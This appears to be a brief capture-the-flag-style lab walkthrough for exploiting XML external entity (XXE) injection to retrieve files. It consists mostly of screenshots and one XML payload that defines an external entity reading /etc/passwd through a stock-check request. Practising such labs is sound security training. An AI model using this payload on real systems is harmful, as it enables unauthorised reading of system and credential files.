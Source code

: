 # Lab: Exploiting XXE using external entities to retrieve files

![image](https://user-images.githubusercontent.com/68326057/128641657-1c2d2a37-819f-480a-a9ed-0937fdc6544a.png)

# Solution

Step-1) 

![image](https://user-images.githubusercontent.com/68326057/128641686-0dfb92c2-a8a1-4d45-bcba-7a035b2d6caf.png)

Step-2)

![image](https://user-images.githubusercontent.com/68326057/128642012-2af94cf2-56d2-40f9-bb51-9938daf76be7.png)

Step-3)

Payload Used

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
<productId>
&xxe;
</productId><storeId>3</storeId></stockCheck>
```

![image](https://user-images.githubusercontent.com/68326057/128642736-d194805e-e069-4ac6-866d-89c90a92c0b3.png)

![image](https://user-images.githubusercontent.com/68326057/128642761-1f2874e4-93e2-4dff-92b1-86b2bdb4caee.png)
